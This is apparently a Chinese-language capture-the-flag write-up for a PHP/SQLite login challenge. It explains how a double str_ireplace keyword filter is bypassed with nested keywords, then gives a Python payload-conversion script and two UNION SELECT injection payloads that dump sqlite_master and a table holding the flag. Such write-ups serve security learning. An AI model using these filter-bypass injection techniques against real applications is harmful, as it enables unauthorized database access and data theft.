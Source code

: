 ```php
                <div class="col-md-6">
                    <div class="col-md-12">
                        <h3 class="text-center text-info">Nothing</h3>
                        Hello, <b><?= htmlentities($user) ?></b>, nothing here.
                        <a href="?action=logout">Logout!</a>
                    </div>
                </div>
            </div>
        </div>
    <?php endif ?>
</body>
```

就是 sqlite 的 SQL Injection，輸入的 username 會用 `str_ireplace` 過濾兩次，很好繞過，打 `///***` 就會被過濾成 `/*`，打 `selselselectectect` 就會被過濾成 `select`，所以寫個簡單的 script 自動轉換 payload

```python
 import sys

 table = {
     ' ': '/**/',
     '/*': '///***',
     '*/': '***///',
     'union': 'unununionionion',
     'select': 'selselselectectect',
     'and': 'anananddd',
     'or': 'ooorrr',
     'where': 'whewhewhererere',
     'from': 'frfrfromomom',
 }

 inp = sys.argv[1]
 for t,v in table.items():
     inp = inp.replace(t, v)
 print(inp)
```

注意到 `--` 還是沒辦法用，因為 `-selselectect-` 會被轉成空的，`select` 順序在 `--` 前面會先被過濾掉，`str_ireplace` 是照著 list 一個個 replace 的，不過我們用 `/*` 就足夠了。

```
'///******///unununionionion///******///selselselectectect///******///null,sql,null///******///frfrfromomom///******///sqlite_master///******///whewhewhererere///******///type='table'///******///limit///******///1///******///offset///******///0///***
```

先挖 table，找到 `CREATE TABLE garbage ( id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, value TEXT )`，只有這個 `garbage` 和 `users`

```
'///******///unununionionion///******///selselselectectect///******///null,name,null///******///frfrfromomom///******///garbage///******///limit///******///1///******///offset///******///0///***
```

再挖 db 裡面，挖到有個 name 是 `something good`，挖他的 value 就看到 flag 了
